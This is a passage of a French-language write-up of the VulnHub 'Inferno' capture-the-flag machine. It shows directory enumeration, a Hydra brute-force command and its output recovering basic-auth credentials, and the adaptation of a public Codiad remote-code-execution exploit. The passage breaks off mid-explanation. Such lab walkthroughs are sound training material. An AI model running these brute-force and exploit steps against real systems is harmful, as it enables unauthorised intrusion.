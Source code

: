 ```yaml
---
title: "Solution du CTF Inferno de VulnHub"
tags: [CTF,VulnHub]
---
```


[Inferno](https://vulnhub.com/entry/inferno-11,603/) est un CTF créé par [mindsflee](https://twitter.com/mindsflee) et disponible sur *VulnHub*.

## L'enfer est pavé de bonnes intentions

La VM expose un serveur Apache sur lequel on trouve une page avec une image, rien de plus.

Une énumération pour rechercher des dossiers me ramène ce path qui réclame des identifiants.

```
401       14l       54w      461c http://192.168.56.224/inferno
```

Vu le thème du CTF,j'imagine que le nom d'utilisateur est soit `dante` soit `admin`. Je mets les deux dans un fichier et je lance un brute force avec `Hydra` :

```console
$ hydra -u -L users.txt -P rockyou.txt http-head://192.168.56.224/inferno
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688762 login tries (l:2/p:14344381), ~1793048 tries per task
[DATA] attacking http-head://192.168.56.224:80/inferno
[STATUS] 8978.00 tries/min, 8978 tries in 00:01h, 28679784 to do in 53:15h, 16 active
[STATUS] 9077.00 tries/min, 27231 tries in 00:03h, 28661531 to do in 52:38h, 16 active
[80][http-head] host: 192.168.56.224   login: admin   password: dante1
```

Une fois passé l'authentification basic on se retrouve face à un `Codiad`. J'ai déjà croisé cet éditeur de texte en ligne sur le [CTF Froggy]({% link _posts/2019-05-21-Solution-du-CTF-Froggy-de-Wizard-Labs.md %}).

Pour accéder à l'éditeur, il y a une mire de login et les mêmes identifiants que précédemment sont acceptés.

Un exploit de type RCE existe et un PoC python est présent sur `exploit-db` : [Codiad 2.8.4 - Remote Code Execution (Authenticated) - Multiple webapps Exploit](https://www.exploit-db.com/exploits/49705)

Afin de passer l'authentification basic il faut ajouter une ligne au script :

```python
session.auth = ("admin", "dante1")
```

L'exploit a un fonctionnement assez particulier : il se connecte sur un port à nous pour lire des commandes et les exécuter :
